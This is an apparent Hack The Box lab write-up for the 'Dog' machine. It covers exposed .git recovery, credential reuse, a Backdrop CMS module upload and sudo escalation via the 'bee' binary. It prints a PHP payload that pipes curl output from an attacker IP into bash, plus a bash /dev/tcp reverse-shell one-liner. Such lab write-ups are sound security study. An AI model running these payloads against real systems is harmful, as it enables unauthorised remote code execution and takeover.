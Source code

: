 ```yaml
---
title: Dog
---
```


![htb](../../../../../assets/dog.png)

The machine exploits several common weaknesses in web and server environments: exposed `.git` repositories, disclosure of sensitive credentials, accessible admin panel, uploading malicious files in a vulnerable CMS, password reuse, and misconfigured Sudo permissions allowing execution of privileged binaries.

## Enumeration

I started the enumeration phase by scanning the ports with nmap; ports 80 (HTTP) and 22 (SSH) were detected as open. This indicates there is a running website and an SSH port which, if we obtain credentials, we can use to access. As a standard procedure, we run the basic nmap scripts.

#### Command to enumerate possible nmap scripts

```bash
nmap -sC -p22,80 IP
```

![htb](../../../../../assets/dog/nmap.png)

## Reconnaissance

We detected that the `.git` file is exposed due to misconfiguration. Using the tool [GitHack](https://github.com/lijiejie/GitHack), we can automate the restoration of this repository.

```bash
python3 GitHack.py IP/.git
```

![contentGitHack](../../../../../assets/dog/2025-08-14_20-40.png)

Among all these files, the one that caught my attention the most is `settings.php`, so I reviewed it and found exposed database credentials:

![credentials](../../../../../assets/dog/credenciales.png)

On the web service, I tried to log in as root, but it was impossible. Before attempting a brute-force attack to try common usernames, I performed an enumeration of possible leaked email addresses:

```bash
grep -r '\.htb'
```

Inside the `files` directory, we found a file containing the email `tiffany@dog.htb`. Using the previously obtained credentials, we successfully logged in and accessed the admin dashboard.

## Exploitation

After exploring the web service for a while, I discovered a panel listing several users. I tried connecting via SSH with them, but it was unsuccessful. However, I noticed I could install modules, so I started researching how modules work in Backdrop CMS.  

I downloaded a ZIP containing the official [examples](https://backdropcms.org/project/examples), and after analyzing them, I found that the `page_example` directory contained an important PHP file: `page_example.module`. I deleted its content and replaced it with:

```php
<?php
    system('curl your-ip | bash');
?>
```

I compressed it, as only `.tar.gz` files were accepted, and when attempting to install it, an error appeared:

![error](../../../../../assets/dog/error.png)

This can be briefly fixed by going back to the examples directory and adding `type = module` to the `page_example.info` file. With this, the installation should work.

Before finishing the installation, we set up a Python server containing an `index.html` with the bash one-liner:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/your-ip/port 0>&1"
```

We listen with NetCat on the specified port and complete the module installation. This should give a reverse shell with the `www-data` user. I then enumerated the users present on the machine:

![reverse](../../../../../assets/dog/usuarios.png)

Reusing the credentials obtained at the beginning, I successfully logged in as the user `jhoncusack`, who holds the flag. While logged in as `jhoncusack`, I performed routine reconnaissance and noticed all users have permissions to execute the `/usr/local/bin/bee` binary, which is critical:

![usr](../../../../../assets/dog/enumeration.png)

To escalate privileges, I exploited this binary, as it clearly allows arbitrary command execution using `eval`:

![explo](../../../../../assets/dog/exploit.png)

For this to work, you only need to specify a path where `root` is being used:

![root](../../../../../assets/dog/root.png)

# END
